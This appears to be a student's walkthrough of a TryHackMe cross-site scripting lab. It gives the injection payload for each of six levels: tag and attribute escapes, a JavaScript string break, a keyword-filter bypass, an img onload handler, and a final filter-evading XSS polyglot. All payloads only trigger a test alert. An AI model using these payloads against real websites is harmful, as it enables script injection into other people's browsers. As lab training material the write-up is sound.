 # XSS
From THM XSS Labs

https://vine-sea-2c5.notion.site/Script-Page-1243b89759a6807eb5deef23b5c92518?pvs=4

# Script Page

The aim for each level will be to execute the JavaScript alert function with the string **XXXTESTXXX.**

```bash
<script>alert('XXXTESTXXX');</script>
```

## **Level One:**

If you view the Page Source, You'll see your name reflected in the code:

```jsx
<div class="text-center">
	<h2>hello, tester</h2>
</div>
```

Instead of entering your name, we're going to try entering the following JavaScript Payload:

`**Try entering the payload:**`

```bash
<script>alert('XXXTESTXXX');</script>
```

Now, when you click the enter button, you'll get an alert popup with the string **XXXTESTXXX,** and the page source will look like the following:

```jsx
<div class="text-center">
	<h2>hello, <script>alert('**XXXTESTXXX**');</script></h2>
</div>
```

Then, you'll receive a confirmation message that your payload was successful.

## **Level Two:**

Like the previous level, you're being asked again to enter your name. This time, when clicking enter, your name is reflected in an input tag instead:

Viewing the page source, you can see your name reflected inside the value attribute of the input tag:

```jsx
<div class="text-center">
	<h2>Hello, <input value="tester"></h2>
</div>
```

It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we must escape the input tag first so the payload can run properly. You can do this with the following payload.

`**Try entering the payload:**`

```bash
**"><script>alert('XXXTESTXXX');</script>**
```

The critical part of the payload is the **`">`,** which closes the value parameter and the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:

`**Try entering the payload:**`

```jsx
<div class="text-center">
	<h2>Hello, <input value=""><script>alert('XXXTESTXXX');</script>"></h2>
</div>
```

When you click the enter button, an alert popup with the string THM will appear. Then, you'll receive a confirmation message that your payload was successful.

## **Level Three:**

You're presented with another form asking for your name. As in the previous level, your name is reflected inside an HTML tag, this time, the text area tag.

We'll have to escape the text area tag a little differently from the input one (in Level Two) by using the following payload:

`**Try entering the payload:**`

```bash
</textarea><script>alert('XXXTESTXXX');</script>
```

This turns this:

```jsx
<div class="text-center">
	<h2>Hello, <textarea>tester</textarea></h2>
</div>
```

Into This:

```jsx
<div class="text-center">
	<h2>Hello, <textarea></textarea><script>alert('**XXTESTXX**');</script></textarea></h2>
</div>
```

The critical part of the above payload is **`</textarea>`**, which causes the textarea element to close so the script will run.

An alert popup with “**XXXTESTXXX**” will appear when you click the enter button. 

## **Level Four:**

Entering your name into the form will reflect it on the page. This level looks similar to level one, but upon inspecting the page source, you'll see that your name is reflected in some JavaScript code.

```jsx
<script>
	document.getElementsByClassName('name')[0].innerHTML='tester';
</script>
```

You'll have to escape the existing JavaScript command so you're able to run your code; you can do this with the following payload :

`**Try entering the payload:**`

```bash
';alert('XXXTESTXXX');//
```

 The screenshot below shows that you will execute your code. The **`'`** closes the field specifying the name, then**`;`** signifies the end of the current command, and the **`//`** at the end makes anything after it a comment rather than executable code.

```jsx
<script>
	document.getElementsByClassName('name')[0].innerHTML='';alert('XXXTESTXXX');//';
</script>
```

When you click the enter button, an alert popup with the string THM will appear. Then, you'll receive a confirmation message that your payload was successful.

## **Level Five:**

This level looks the same as level one, and your name is reflected in the same place. But if you try the **`<script>alert('`XXXTESTXXX`');</script>`** payload, it won't work. When you view the page source, you'll see why.

```jsx
<div class="text-center">
	<h2>Hello, <>alert('XXXTESTXXX');</></h2>
</div>
```

The word **`script`** is removed from your payload because a filter strips out any potentially dangerous words.

When a word gets removed from a string, there's a helpful trick that you can try.

**Original Payload:**

```bash
<sscriptcript>alert('XXXTESTXXX');</sscriptcript>
```

**Text to be removed (by the filter):**

```bash
<sscriptcript>alert('XXXTESTXXX');</sscriptcript>
```

**Final Payload (after passing the filter):**

```bash
<script>alert('XXXTESTXXX');</script>
```

 `**Try entering the payload:**`

```bash
 <sscriptcript>alert('XXXTESTXXX');</sscriptcript>
```

 When you click the enter button, an alert popup with “XXXTESTXX” will appear. Then, you'll receive a confirmation message that your payload was successful.

## **Level Six:**

Similar to level two, where we had to escape from the value attribute of an input tag, we can try:

```bash
"><script>alert('XXXTESTXXX');</script>
```

**But that doesn't work. Let's inspect the page source to see why that doesn't work.

```jsx
<div class="text-center">
		<h2>Your Picture</h2>
		<img src=""scriptalert('XXXTESTXXX');/script">
</div>
```

You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. The onload event executes your chosen code once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this:

`**Try entering the payload:**`

```bash
/images/cat.jpg" onload="alert('XXXTESTXXX');
```

 Then, view the page source, and you'll see how this will work.

```jsx
<div class="text-center">
	<h2>Your Picture</h2>
	<img src="/images/cat.jpg" onload="alert('XXXTESTXXX');">
</div>
```

When you click the enter button, an alert popup with the “XXXTESTXX” string will appear.

## **Polyglots:**

An XSS polyglot is a string of text that can escape attributes and tags and bypass filters. You could have used the polyglot below on all six levels you've just completed, and it would have executed the code successfully.

`**Try entering the payload:**`

```jsx
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XXXTESTXXX') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XXXTESTXXX')//>\x3e
```

---

[https://vine-sea-2c5.notion.site/Script-Page-1243b89759a6807eb5deef23b5c92518?pvs=4](https://www.notion.so/Script-Page-1243b89759a6807eb5deef23b5c92518?pvs=21)
